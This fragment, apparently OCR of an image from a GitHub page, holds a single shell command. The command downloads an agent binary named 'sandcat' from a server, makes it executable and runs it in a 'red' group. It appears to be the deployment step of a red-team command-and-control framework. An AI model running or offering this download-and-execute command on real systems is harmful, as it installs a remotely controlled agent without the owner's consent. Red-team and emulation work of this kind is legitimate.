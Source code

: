 server="http://10.99.156.47:8888";curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > agentb;chmod +x agentb;./agentb -server $server -group red -v
